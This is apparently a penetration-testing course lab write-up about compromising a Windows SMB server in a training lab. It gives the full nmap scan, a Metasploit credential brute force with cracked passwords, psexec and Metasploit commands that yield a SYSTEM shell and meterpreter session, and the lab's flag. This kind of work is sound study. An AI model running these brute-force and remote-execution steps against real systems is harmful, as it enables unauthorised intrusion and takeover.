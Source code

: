 # 🔬SMB

## Lab 1 - PsExec

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> * Target IP: `10.0.21.78`
> * **SMB** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

```bash
nmap -sV -sC 10.0.21.78
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 13:10 IST
Nmap scan report for 10.0.21.78
Host is up (0.0023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2024-06-29T07:38:34
|_Not valid after:  2024-12-29T07:38:34
|_ssl-date: 2024-06-30T07:40:33+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-30 13:10:36
|_  start_date: 2024-06-30 13:08:33

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.46 seconds
```

<figure><img src="../../../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

> Running SMB version 2.02 which means can authenticate with the system via PsExec

### SMB Brute Force

* Perform smb bruteforce using metasploit module `smb_login`

```bash
msf5 > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner
```

```bash
msf5 > use auxiliary/scanner/smb/smb_login 
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.0.21.78
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf5 auxiliary(scanner/smb/smb_login) > run
```

```bash
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\sysadmin:samantha'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\demo:victoria'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\auditor:elizabeth'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.0.21.78:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<figure><img src="../../../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

### SMB Exploitation

Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/)) to get a command prompt on the target machine, with the Administrator account.

* Using this technique, **no exploit is launched or uploaded on the target system**.
* It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
 psexec.py Administrator@10.0.21.78 cmd.exe
```

```bash
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.0.21.78.....
[*] Found writable share admin
[*] Uploading file WlEGirYI.exe
[*] Opening SVCManager on 10.0.21.78.....
[*] Creating service vgLO on 10.0.21.78.....
[*] Starting service vgLO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system  #the highest privileges
```

{% hint style="info" %}
Target the administrator account because that gives the most access, while other normal user only will give a certain level of access.
{% endhint %}

Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.

* This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msf5 auxiliary(scanner/smb/smb_login) > search psexec

Matching Modules
================
10  exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
```

```bash
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.0.21.78
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass qwertyuiop
msf5 exploit(windows/smb/psexec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

* Find the flag, running `meterpreter` commands

```bash
shell
cd \
dir
type flag.txt
```

<figure><img src="../../../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>Flag</summary>

`e0da81a9cd42b261bc9b90d15f780433`

</details>

***

## Lab 2 - EternalBlue

{% embed url="https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks/smb-psexec#lab-2-eternal-blue-extra" %}

{% embed url="https://0xdf.gitlab.io/2019/02/22/wl-dummy.html" %}

{% embed url="https://offensive.run/exploit/eternalblue/README.html" %}





